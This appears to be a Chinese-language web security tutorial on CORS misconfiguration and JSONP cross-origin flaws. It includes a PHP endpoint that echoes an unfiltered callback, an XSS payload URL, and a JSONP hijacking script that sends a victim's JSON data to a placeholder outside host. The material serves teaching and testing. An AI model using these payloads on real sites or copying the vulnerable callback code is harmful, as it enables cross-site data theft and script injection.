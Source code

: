 ```
<script type="text/javascript">
    var xhr = new XMLHttpRequest();
    xhr.open("GET","http://xxx.com/a/b/",true);
    xhr.send();
</script>
```

请求加origin:https://view.yahoo.com
返回Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com
存在跨域漏洞
http://www.freebuf.com/articles/web/158529.html
https://yassineaboukir.com/blog/security-impact-of-a-misconfigured-cors-implementation/

### 0x04 JSONP跨域

JSOUP(JSON with Padding) 
jsoup 基本语法 callback({ "name": "kwan" , "msg": "获取成功" });
JSONP两部分组成：回调函数和里面的数据。回调函数是当响应到来时，应该在页面中调用的函数，一般是在发送过去的请求中指定。

简单例子如下

```
<script type="text/javascript">
    function callback(json){
        //处理获得的json数据
    }
</script>
<script src="http://xxx.com/data.php?a=callback"></script>
```

没有定义Content-Type为（ Content-Type: application/json ）callback输出点没过滤可导致 xss

服务端code

```
<?php
$callback = $_GET['callback'];
print $callback.'({"id" : "1","name" : "tom0li"});';
?>
```

		访问http://xxx.com/1.php?callback=test"><img/src=x onerror=alert(1)>

![跨域](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/跨域.png)

```
<script>
function test(data){
    var xhr = new XMLHttpRequest();
    var url = "http://xx.com/" + JSON.stringify(data);
    xhr.open("GET",url,true);
    xhr.send();
    }
</script>
<script src="http://xxx.com/1.php?callback=test"></script>
```
